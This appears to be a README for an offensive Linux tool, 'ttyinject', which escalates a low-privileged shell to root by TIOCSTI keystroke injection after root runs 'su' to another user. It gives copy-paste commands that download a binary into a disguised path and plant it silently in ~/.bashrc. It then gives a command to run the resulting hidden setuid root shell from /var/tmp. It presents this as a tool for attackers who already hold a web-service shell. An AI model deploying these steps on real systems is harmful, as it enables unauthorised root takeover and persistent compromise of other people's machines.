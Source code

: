 # Alice gets ROOT when ROOT does 'su alice'.  
(The oldest trick in the book - TTY / TIOCSTI stuffing)

Useful when all other exploits fail.

Typically used when the attacker has a shell as user 'apache', 'php' or 'postgresql'. Alice is used as an example only.

## Deploy
Cut & paste the following into Alice's shell:
```shell
mkdir -p ~/.config/procps 2>/dev/null
curl -o ~/.config/procps/reset -fsSL "https://github.com/hackerschoice/ttyinject/releases/download/v1.1/ttyinject-linux-$(uname -m)" \
&& chmod 755 ~/.config/procps/reset \
&& if grep -qFm1 'procps/reset' ~/.bashrc; then echo >&2 "Already installed in ~/.bashrc"; else \
echo "$(head -n1 ~/.bashrc)"$'\n'"~/.config/procps/reset 2>/dev/null"$'\n'"$(tail -n +2 ~/.bashrc)" >~/.bashrc; fi
```

Wait for ROOT to execute 'su alice' and thereafter gain root with:
```
/var/tmp/.socket -p -c "exec python3 -c \"import os;os.setuid(0);os.setgid(0);os.execl('/bin/bash', '-bash')\""
```
---

## Why this works:  
TL;DR:
* `su` does not allocate a new TTY when switching to a non-privileged user. 
* The non-privileged user can then use ioctl(0, TIOCSTI, ...) to inject input into the root's shell prompt.
* The injected input copies `/bin/sh` to `/var/tmp/.socket` and +s the same.
* Executes only once (from Alice's `~/.bashrc`). Deletes itself afterwards.

Read the source for more details.
